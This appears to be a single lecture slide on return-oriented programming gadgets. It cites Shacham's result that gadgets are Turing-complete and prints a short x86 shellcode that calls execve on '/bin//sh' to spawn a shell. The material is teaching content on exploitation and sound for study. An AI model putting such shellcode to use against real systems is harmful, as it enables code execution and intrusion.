

# Gadget Examples
Save address of esp
Execute our own shellcode
Shacham: gadgets are Turing-complete
xor ecx, ecx
mul ecx
push ecx
push 0x68732f2f
push 0x6e69622f
mov ebx, esp
mov al, 0xb
int 0x80
Our example shellcode
The trick is to find the desired instruction sequences, or semantically equivalent ones
84